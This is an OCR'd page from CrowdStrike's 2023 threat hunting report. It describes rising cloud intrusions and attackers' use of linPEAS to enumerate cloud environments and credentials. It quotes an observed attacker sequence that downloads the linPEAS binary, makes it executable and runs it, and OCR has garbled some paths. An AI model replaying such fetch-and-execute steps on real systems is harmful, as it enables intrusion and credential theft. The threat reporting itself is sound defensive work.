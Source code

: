 indispensable part of businesses modern IT infrastructure. However, the rapid 
surge in demand for cloud services, along with the complexity of cloud management 
and controls, has led to a knowledge gap in properly securing these environments. 
The nature of the attack surface has changed and presents significant security 
challenges for organizations with a cloud presence.
In the past year, Falcon OverWatch has observed numerous instances of insecure 
configurations as well as built\-in cloud platform functionality being abused by 
adversaries to progress their intrusions. As first reported in the CrowdStrike 2023 
Global Threat Report, there was a threefold increase in cases involving cloud\-
conscious threat actors coupled with a 95% increase in cloud exploitation from 
2021 to 2022\. It is clear that adversaries are aware of the importance of the cloud 
and tenacious in their efforts to access cloud assets. 
When it comes to securing the cloud, the old security adage know thy systems'' 
is particularly pertinent. Adversaries are quick to take advantage of visibility and 
knowledge gaps.
Key Facts 
and Figures 
at a Glance:
3X
INCREASE IN THE USE OF LINUX 
PRIVILEGE ESCALATION TOOL 
LINPEAS
95%
INCREASE IN CLOUD 
EXPLOITATION IN 2022
3X
INCREASE IN CASES INVOLVING 
CLOUD\-CONSCIOUS THREAT ACTORS
32
 2023 CrowdStrike, Inc. All rights reserved. 
NOWHERE TO HIDE
CROWDSTRIKE 2023 THREAT HUNTING REPORT
ADVERSARIES LEVERAGE LINPEAS TOOL 
FOR CLOUD DISCOVERY
Falcon OverWatch detected several intrusions at the cloud workload level where 
adversaries gained access to a cloud server and used the Linux privilege escalation 
tool linPEAS to enumerate the environment. Although linPEAS has been around 
for several years, in the past year, Falcon OverWatch saw its use by eCrime and 
targeted intrusion adversaries triple. 
LinPEAS has a cloud module that attempts to determine in which cloud 
environment, if any, the module is running through a process of fingerprinting. 
This process inspects local files including etchosts, etcresolv.conf and 
vendor\-specific configuration files, as well as HTTP requests using both curl and 
wget, to a well\-known cloud service providers API endpoints. The cloud module 
currently supports discovery of Google Cloud, DigitalOcean Droplet, IBM Cloud, 
and Amazon's Elastic Container Service (ECS), Elastic Compute Cloud (EC2\), 
EC2 Beanstalk and Lambda. If a cloud service provider is identified, the module will 
enumerate details of the identified cloud environment, which may include machine 
attributes such as the instance metadata (ID, name, region or zone, and image); 
network attributes (public and private IPs, hostnames); and various user, service 
and security credentials depending on cloud service provider and cloud security 
configuration. 
In one instance, Falcon OverWatch discovered an adversary downloading a pre\-
compiled version of the linPEAS tool. They renamed the file via mv, set execute 
permissions and attempted execution of the file:
wget https\[:]github\[.]comcarlospolopPEASS\-ngreleasesdownload
\[REDACTEDPath]linpeas\_darwin\_arm64
mv linpeas\_darwin\_arm64 x
chmod \+x x
.x
Not all ingress of the linPEAS tool comes from the official GitHub repository 
 adversaries are also known to stage tooling to sources under their control. 
Reasons for this may include ready access to custom\-compiled versions to evade 
signature\-based detection, as well as avoiding source URLs that identify the tooling. 